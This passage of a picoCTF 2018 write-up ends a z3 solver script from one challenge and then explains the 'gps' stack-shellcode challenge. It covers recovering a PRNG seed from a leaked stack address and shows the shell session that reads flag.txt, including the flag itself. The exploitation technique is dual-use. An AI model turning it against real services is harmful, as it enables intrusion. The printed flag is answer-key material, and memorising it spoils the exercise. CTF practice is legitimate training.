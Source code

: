 ```python
if s.check() == z3.sat:
	model = s.model()
	out = ''
	for x in range(0, 16):
		for i in model:
			ch = model[i].as_long()
			matches = re.findall(pattern, str(i))
			
			for match in matches:
				if match == str(x):
					out += to_ascii(ch)
					print '[{}] {}'.format(x, asciify(ch))

	print out
```

## gps

`gps` is an application which leaks the address of a variable allocated on the stack, plus an offset, i.e. `&stk + rand()`. In order to exploit this application, we need to locate the address of `buffer` on the stack using the leaked stack address. The number of dots between each consecutive `Satellite n` call is enough to leak the seed for the PRNG, which just so happens to be the address of our `buffer`. We can use `pwntools` to automate most of this process. I had to write a small C application to find the seed for the PRNG, but this wasn't too difficult because the maximum distance of the offset from the `stk` variable was between `-816` and `816`. In the worst case, our C application returned 4 possible seeds, of which, 3 were probably useless because they were not aligned on stack boundaries, so it was trivial to determine which was the correct address of our buffer.

After successfully exploiting the application, the flag mentioned the use of a NOP-sled. I didn't actually use a NOP-sled because I managed to determine the exact location of the shellcode, but I'm sure this would've eased the exploitation process slightly.

```
$ python get.py
[+] Opening connection to 2018shell1.picoctf.com on port 49351: Done
GPS Initializing..........Done
Acquiring satellites.Satellite 0...Done
Satellite 1....Done
Satellite 2....Done

GPS Initialized.
Warning: Weak signal causing low measurement accuracy

We need to access flag.txt.
Current position: 
0x7ffde6e3b11f
[*] Switching to interactive mode

> Where do we start?
> $ 0x7ffde6e3aff0
$ ls
flag.txt
gps
gps.c
xinet_startup.sh
$ cat flag.txt
picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_awalizpv}
```
